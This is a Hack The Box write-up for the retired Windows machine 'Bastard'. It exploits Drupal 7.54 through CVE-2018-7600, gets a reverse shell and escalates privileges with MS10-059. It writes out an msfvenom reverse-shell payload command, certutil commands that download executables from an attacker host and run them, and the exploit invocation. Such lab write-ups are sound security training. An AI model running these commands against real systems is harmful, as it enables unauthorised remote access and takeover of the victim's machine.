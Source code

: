 ```yaml
---
title: Bastard Hackthebox Writeup
date: 2020-12-23 09:00:00 +0800
categories: [Hackthebox, Retired]
tags: [windows,drupal,rce,drupal 7.54,python exploit,windows exploit suggester]     # TAG names should always be lowercase
image: /assets/img/bastard-hackthebox/bastard-pic.png
subtitle: JHBDOcubeoveiubo
---
```



# Introduction@Access:~$


Column | Details
------------ | -------------
Name | Bastard
IP | 10.10.10.9
Points | 30
Os | Windows
Difficult | Medium
Creator | [ch4p](https://www.hackthebox.eu/home/users/profile/1)
Out on | 18th March 2017

# Summary:~$

* Discovering the new host and scanning for open ports.
* As it's a drupal website, looking for version which we got as `Drupal 7.54`.
* Looking for vulnerabilities, we found that RCE is possible on this version: `CVE-2018-7600`.
* By transfering an `exe` payload and we got a reverse connection back i.e `User Shell`.
* Escalating `Privileges` by using **Local windows exploit suggester**, which gave `MS10-059.exe` as one of the recommendations.

# Starting:~$

## Nmap

I have used **nmapAutomator** , which keeps the scanning fast and reduces effort.*(Not recommended in real life scenarios).* 

Dowload link: [nmapAutomator](https://github.com/21y4d/nmapAutomator)

___
![](/assets/img/bastard-hackthebox/nmap-scan-1.png)

Basically `3 Ports` are open i.e. `80,135,49154`. Let's access port 80 first.

___
![](/assets/img/bastard-hackthebox/website-homepage-2.png)

It is a `Drupal` webiste, checking `/robots.txt`.

___
![](/assets/img/bastard-hackthebox/robots-txt-4.png)

In this I found `/CHANGELOG.txt` file which showed which version of `Drupal` is installed.

___
![](/assets/img/bastard-hackthebox/got-version-name-6.png)

The version installed is `Drupal 7.54`, while searching for vulnerabilities I found this :

___
![](/assets/img/bastard-hackthebox/drupa-exploit-8.png)

[Link for the exploit](https://github.com/pimps/CVE-2018-7600)

After downloading the exploit on my system, I ran `whoami` as a remote execution command and I got `nt authority\iusr` as the result.

___
![](/assets/img/bastard-hackthebox/whoami-command-worked-10.png)

Now let's upload an exe shell to the machine and get a reverse connection back, before that we need to know the architecture of the machine which is `x64`.

___
![](/assets/img/bastard-hackthebox/systeminfo-x64-architecture-11.png)

Creating a `payload` using `msfvenom`

**Command** : *msfvenom -p windows/x64/shell_reverse_tcp  -a x64 LHOST=10.10.X.X LPORT=4444 -f exe --platform windows > shell.exe*

___
![](/assets/img/bastard-hackthebox/shell-msfvenom-command-12.png)

Transfering `shell.exe` via **certutil** command.

**certutil command** : *certutil -urlcache -split -f http://10.10.X.X:8081/shell.exe c:/windows/temp/shell.exe*

**Hosting Command** : *python3 -m http.server 8081*

**Final Command** : *python exploit.py http://10.10.10.9 -c "certutil -urlcache -split -f http://10.10.X.X:8081/shell.exe c:/windows/temp/shell.exe"*

___
![](/assets/img/bastard-hackthebox/transfered-shell-exe-13.png)

Executing `shell.exe` using the python exploit and listening on the specified port using `nc`. we got `User Shell`.

___
![](/assets/img/bastard-hackthebox/got-shell-14.png)

Let's gather `systeminfo` for Privilege Escalation.

___
![](/assets/img/bastard-hackthebox/getting-system-info-16.png)

Feeding the above information to `windows exploit suggester` which I had downloaded on my machine.

Download link : [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

___
![](/assets/img/bastard-hackthebox/exploit-suggester-17.png)

Using `MS10-059.exe` to escalate privileges.

[Download Link](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe)

Sending the executable to windows machine using `certutil` command.

**Command** : *certutil -urlcache -split -f http://10.10.X.X:8081/MS10-059.exe c:/windows/temp/priv.exe*

___
![](/assets/img/bastard-hackthebox/certutil-priv-shell-18.png)

Running the `exploit` and we got `Root`.

___
![](/assets/img/bastard-hackthebox/got-root-shell-19.png)